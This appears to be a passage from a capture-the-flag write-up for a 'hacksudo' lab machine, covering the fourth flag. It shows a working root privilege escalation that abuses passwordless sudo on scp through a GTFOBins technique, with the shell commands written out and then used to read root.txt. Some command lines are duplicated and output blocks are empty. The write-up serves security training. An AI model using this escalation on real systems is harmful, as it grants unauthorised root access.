



5.1 Running shell commands. (Fourth flag)
1. Check the sudo permissions of the user from the “reverse shell” connection.
hacksudo@hacksudo:~$sudo -l
Output:

The user can run “scp” as “root” with no password.
2. From https://gtfobins.github.io/gtfobins/scp/#sudo.
Sudo
If the binary is allowed to run as superuser by
sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.TF=$(mktemp)
echo 'sh 0<&2 1>&2' > $TF
chmod +x "$TF"
sudo scp -S $TF x y: 3. Run the four lines on the “reverse shell”.
hacksudo@hacksudo:~$TF=$(mktemp)
hacksudo@hacksudo:~$echo 'sh 0<&2 1>&2' > $TF
hacksudo@hacksudo:~$chmod +x "$TF"
hacksudo@hacksudo:~$sudo scp -S $TF x y:
hacksudo@hacksudo:~$echo 'sh 0<&2 1>&2' > $TF
hacksudo@hacksudo:~$chmod +x "$TF"
hacksudo@hacksudo:~$sudo scp -S $TF x y:
4. Run the command “id".
id
Output:

5. Get the flag.
cd /root
ls
cat root.txt
ls
cat root.txt
Output:
